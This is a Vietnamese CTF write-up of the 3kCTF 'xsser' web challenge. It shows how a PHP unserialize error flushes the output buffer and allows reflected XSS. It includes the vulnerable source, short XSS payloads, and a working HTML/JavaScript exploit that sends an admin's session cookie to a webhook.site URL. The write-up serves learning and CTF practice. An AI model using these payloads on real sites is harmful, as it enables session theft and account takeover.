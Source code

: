+++
title = "xsser - 3kCTF"
description = ""
tags = [
    "xss",
    "web",
    "php",
]
date = "2020-07-29"
categories = [
    "CTF",
]
menu = "main"
+++

Nguồn: [https://ctftime.org/writeup/22594](https://ctftime.org/writeup/22594)

Truy cập vào đường link [http://xsser.3k.ctf.to/](http://xsser.3k.ctf.to/) trang sẽ tự chuyển hướng thành [http://xsser.3k.ctf.to/?**login=O:4:"User":2:{s:4:"name";s:5:"guest";s:7:"isAdmin";b:0;}**](http://xsser.3k.ctf.to/?login=O:4:"User":2:{s:4:"name";s:5:"guest";s:7:"isAdmin";b:0;})

và đây là nội dung file index.php

```php
<?php
include('flag.php');
class User

{
    public $name;
    public $isAdmin;
    public function __construct($nam)
    {
        $this->name = $nam;
        $this->isAdmin=False;
    }
}

ob_start();
if(!(isset($_GET['login']))){
    $use=new User('guest');
    $log=serialize($use);
    header("Location: ?login=$log");
    exit();

}

$new_name=$_GET['new'];
if (isset($new_name)){

  if(stripos($new_name, 'script'))//no xss :p
                 {
                    $new_name = htmlentities($new_name);
                 }
        $new_name = substr($new_name, 0, 32);
  echo '<h1 style="text-align:center">Error! Your msg '.$new_name.'</h1><br>';
  echo '<h1>Contact admin /req.php </h1>';

}
 if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
            setcookie("session", $flag, time() + 3600);
        }
$check=unserialize(substr($_GET['login'],0,56));
if ($check->isAdmin){
    echo 'welcome back admin ';
}
ob_end_clean();
show_source(__FILE__);
```

Thoạt nhìn có thể khai thác được xss thông qua `$_GET['new']` , nhưng nó nằm trong `ob_start()` và `ob_end_clean()` ( lưu output vào buffer và clean) nên dù có khai thác được xss thì `$_GET['new']` cũng không được in ra trình duyệt.

Nhưng khoan, vậy thì hàm `htmlentities()` chống xss để làm gì.

Dạo một vòng php documentation thì phát hiện [ob_start()#108016](https://www.php.net/manual/en/function.ob-start.php#108016), cụ thể khi có lỗi throw ra trong buffer thì nó in ra tất cả những gì đang có trong buffer.

Vì vậy ta nên khai thác lỗi các hàm khác để buffer được in ra, từ đó khai thác tiếp xss.

[unserialize()#112894](https://www.php.net/manual/en/function.unserialize.php#112894) cho ta biết nếu object truyền vào không thể khởi tạo (Abstract Class hoặc Interface) thì sẽ throw lỗi. Vậy nên ta xây dựng payload là một string đã serialized.

Dựa trên [unserialize()#66147](https://www.php.net/manual/en/function.serialize.php#66147) để build một payload: `O:8:"Iterator":0:{}` truyền vào `$_GET['login']`

Nhận thấy `htmlentities()` chỉ thực thi khi phát hiện `'script'` truyền vào. Vậy ta sẽ dùng payload inline xss: `<svg/onload=alert(1)>` truyền vào `$_GET['new']`

Truy cập: [http://xsser.3k.ctf.to/?login=O:8:"Iterator":0:{}&new=<svg/onload=alert(1)>](<http://xsser.3k.ctf.to/?login=O:8:%22Iterator%22:0:%7B%7D&new=%3Csvg/onload=alert(1)%3E>)

Kết quả:

![xsser%20-%203kCTF%20a9ddc8d8f1aa4181adb95f6ef4fe0de7/Untitled.png](xsser%20-%203kCTF%20a9ddc8d8f1aa4181adb95f6ef4fe0de7/Untitled.png)

Vậy là chạy được script tiêm vào. Nhưng script bị giới hạn chỉ 32 kí tự, và không dùng được script tag. Tìm payload ngắn nhất trên google ra được [bài này](https://brutelogic.com.br/blog/shortest-reflected-xss-possible/).

Chúng ta có 2 lựa chọn:

1. Có một domain 4 kí tự trở xuống chứa script `<svg/onload=import('xxxx.yy')>`
2. Lưu script vào `window.name` rồi thực thi `<svg/onload=eval(name)>`

Mình chọn cách 2 vì đơn giản hơn. Việc còn lại là lấy được `$flag` thông qua cookie của admin

```php
 if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
            setcookie("session", $flag, time() + 3600);
```

Như chúng ta thấy cookie chỉ được set khi địa chỉ truy cập là `127.0.0.1` tức là `localhost` vậy khi viết script chúng ta sẽ trỏ tới `127.0.0.1` thay vì `xsser.3k.ctf.to`

Bạn cần host script của bạn và submit vào [http://xsser.3k.ctf.to/req.php](http://xsser.3k.ctf.to/req.php) để admin truy cập.

Mình thích dùng [repl.it](http://repl.it) để host code, vì thằng này có thể chạy được `http` và cả `https` mà không bị chuyển hướng như [codesandbox.io](http://codesandbox.io). Và tất nhiên [webhook.site](https://webhook.site/) chuyển hướng cookie về và log lại

```html
<iframe id="xss" src="http://127.0.0.1/"></iframe>
<script>
  document.getElementById("xss").onload = function () {
    setTimeout(function () {
      window.open(
        "http://127.0.0.1/?login=O:11:%22Traversable%22:0:{}&new=%3Csvg/onload=eval(name)%3E",
        'window.location.href = "https://webhook.site/2efe831e-5b4e-43f2-a800-9734dd41d367?"+document.cookie'
      );
    });
  };
</script>
```

Copy link để submit nhớ bỏ `https` Link có dạng [http://ImmediateLavishCallbacks--five-nine.repl.co](https://immediatelavishcallbacks--five-nine.repl.co/)

![xsser%20-%203kCTF%20a9ddc8d8f1aa4181adb95f6ef4fe0de7/Untitled%201.png](xsser%20-%203kCTF%20a9ddc8d8f1aa4181adb95f6ef4fe0de7/Untitled%201.png)

Có một điều thú vị là script sẽ chạy nếu như click thẳng vào link. Còn nhập link vào trình duyệt thì Chrome sẽ tự phát hiện popup và chặn. Vậy nên `window.open()` sẽ không dùng được. Các bạn có thể dùng cách khác là tạo `<a href={link xss} target={window.name}>` và dùng javascript để click vào link đó.

Như vậy là thành công

![xsser%20-%203kCTF%20a9ddc8d8f1aa4181adb95f6ef4fe0de7/Untitled%202.png](xsser%20-%203kCTF%20a9ddc8d8f1aa4181adb95f6ef4fe0de7/Untitled%202.png)
